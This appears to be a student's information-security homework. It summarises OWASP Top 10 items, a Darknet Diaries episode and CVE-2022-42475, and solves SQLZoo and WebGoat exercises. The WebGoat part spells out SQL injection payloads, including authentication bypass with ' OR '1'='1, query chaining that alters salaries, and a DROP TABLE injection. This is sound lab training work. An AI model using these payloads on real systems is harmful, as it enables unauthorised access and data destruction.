

# Homework H2 Goat
See instructions: https://terokarvinen.com/2023/information-security-2023/

# 0) Sumarize 

## OWASP: OWASP 10 2021

### A05:2021-Security Misconfiguration
Security misconfiguration is one of the most common vulnerabilities in web applications and can have serious consequences.
Common causes of security misconfiguration include:
+ Incomplete or incorrect configuration of security settings
+ Unsecured default accounts and passwords
+ Inadequate logging and monitoring
+ Exposed sensitive files and directories
The impact of security misconfiguration can include:
+ Unauthorized access to sensitive information
+ Tampering with data and functionality
+ DDoS attacks
To prevent security misconfiguration, organizations should follow best practices for security and configuration management, such as:
+ Enforcing strong passwords and regularly updating them
+ Limiting access to sensitive information
+ Regularly monitoring and logging security events
+ Keeping all software and systems up-to-date with the latest patches and security updates.

[More details](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/ "Hypertext link")

### A06:2021-Vulnerable and Outdated Components
+ Vulnerable and outdated components can introduce security risks into an application, such as known exploits, malware and unpatched vulnerabilities.
+ This issue can be mitigated by performing regular scans for outdated and vulnerable components and updating them as necessary.
+ Automated tools can help in identifying these components and automating the process of updating them.
+ Keeping track of component usage and ensuring that component licenses are up-to-date is also important to reduce security risks.
+ Regularly checking component-related security advisories and bulletins can help in staying informed about any potential security risks.
+ Implementing secure development practices and regularly reviewing the security of the entire application can help in mitigating these risks.

[More details](https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/ "Hypertext link")

#### A03:2021-Injection
+ Injection flaws are one of the most common and dangerous types of attacks
+ They occur when an attacker is able to inject malicious code into a vulnerable system, allowing them to control or access sensitive data
+ Injection attacks can take many forms, including SQL injection, script injection, and command injection
+ These attacks can result in data theft, system compromise, and denial of service
+ Injection attacks can be prevented by implementing input validation and sanitization, using parameterized queries, and restricting access to sensitive data
+ It is also important to monitor and detect possible injection attacks, and to have a robust incident response plan in place to quickly respond to any incidents that may occur.

[More details](https://owasp.org/Top10/A03_2021-Injection/ "Hypertext link")

## [Darkent Diaries](https://darknetdiaries.com/ "All the episodes") Podcast: [EP 77: OLYMPIC DESTROYER](https://darknetdiaries.com/transcript/77/ "All the episodes")

Summary:

In this episode of Darken Diaries, the hosts talks about the Olympic Destroyer attack that took place during the 2018 Winter Olympics in Pyeongchang in South Korea. The attack targeted the IT systems used by the Olympics and caused widespread disruption, rendering some critical systems inaccessible. This podcast episode sheds light on the various threat actors involved, the exploits used, the vulnerabilities exploited, and the impact of the attack. The hosts also provide insights into how the attack could have been better defended and how the attackers could have improved their attack.

Key Learnings:

Threat Actors: The Olympic Destroyer attack was carried out by a highly skilled and sophisticated group of threat actors who are yet to be identified.

Exploits: The attackers used a combination of exploits to gain access to the target systems, including exploiting unpatched software and using spear-phishing emails.

Vulnerabilities: The attackers took advantage of several vulnerabilities in the target systems, including weak passwords and unsecured networks.

Impact: The Olympic Destroyer attack caused significant disruption to the 2018 Winter Olympics, impacting critical systems such as the official website and the scoreboard system.

Mitigation: To defend against similar attacks, defenders should ensure that all software is patched and up-to-date, implement strong password policies, and use advanced security tools to detect and respond to threats.

Improvement: The attackers could have improved their attack by using more sophisticated tools and techniques to evade detection, such as using encryption or hiding their tracks.

In conclusion, the Olympic Destroyer attack serves as a cautionary tale for organizations to always be vigilant and proactive in defending against cyber threats. By understanding the threat actors, exploits, vulnerabilities, and impact, organizations can take steps to better defend against similar attacks and mitigate the risk of compromise.


 
Getty Image / Express (2018)

## CVE

### What is it?
CVE stand for Common Vulnerabilities and Exposures (CVE) is a catalog of known security threats
Source: https://www.techtarget.com/searchsecurity/definition/Common-Vulnerabilities-and-Exposures-CVE

### [CVE-2022-42475](https://nvd.nist.gov/vuln/detail/CVE-2022-42475 "Hypertext link")

This is a vulnerability for the companies that use Fortinet security products, espacially internal VPN

 

CVE-2022-42475 it seems to be a chineese threat [(Mandiant, January 2023)](https://www.mandiant.com/resources/blog/chinese-actors-exploit-fortios-flaw "Hypertext link")
A buffer overflow error in FortiOS SSL-VPN allows a remote, unauthenticated attacker to execute arbitrary code on the system by sending specially crafted requests.

 
CVEtrends.com

# a) Sequel: SQLZoo

## [0 SELECT basics](https://sqlzoo.net/wiki/SELECT_basics)

### 1

```
SELECT population FROM world
  WHERE name = 'Germany'
```
### 2
```
SELECT name, population FROM world
  WHERE name IN ('Sweden', 'Norway', 'Denmark');
```
### 3
```
SELECT name, area FROM world
  WHERE area BETWEEN 200000 AND 250000
```
    
## [2 SELECT from World, from first subtask to 5 "France, Germany, Italy"]

### 1
```
SELECT name, continent, population FROM world
```

### 2
```
SELECT name FROM world
WHERE population >= 200000000
```

### 3
There is calculation (division) to have the "per capita GDP' and an alias is used for display reason with the keyword AS
```
SELECT name, (gdp/population) as PerCapitaGDP FROM world
WHERE population >= 200000000;
```
### 4
```
SELECT name, (population/1000000) FROM world
WHERE continent = 'South America'
```
### 5
```
SELECT name, population FROM world
WHERE name IN ('France', 'Germany', 'Italy')
```

# b) Injected. Solve WebGoat

## A1 Injection (intro)

Started my WebGoat server (installed last week) with the following command:
```
java -jar webgoat-server-8.0.0.M26.jar
```

### 2. What is SQL? ¨

Table

Request to retrieve the department of the employee Bob Franco. (We have been granted with full administrator privileges so no authentifaction needed)

`SELECT department FROM employees WHERE first_name = 'Bob' AND last_name = 'Franco';`

Output: _Marketing_

### 3. Data Manipulation Language (DML)
`UPDATE employees SET department = 'Sales' WHERE first_name = 'Tobi' AND last_name = 'Barnett';`

### 4. Data Definition Langugage (DDL)
`ALTER TABLE employees ADD phone varchar(20);`

### 5. Data Control Language (DCL)
`GRANT ALTER TABLE TO UnauthorizedUser;`

### 9. Try it! String SQL injection
`SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1'`


### 10. Try it! String SQL injection
```
SELECT * FROM user_data WHERE login_count = " + Login_Count + " AND userid = "  + User_ID;
login_Count: 1
User_id: 1 or TRUE;
```


### 11. Try it! String SQL injection
```
SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "';
Employee Name:' OR '1'='1
Authentication TAN:' OR '1'='1`
```


### 12. Compromsiing Integrity with Query chaining
```
Employee Name: Smith'; UPDATE employees SET salary = '120000' WHERE first_name = 'John' AND last_name = 'Smith
```


### 13. Compromising Availability
```
Sebastien'; DROP TABLE access_log;--
```
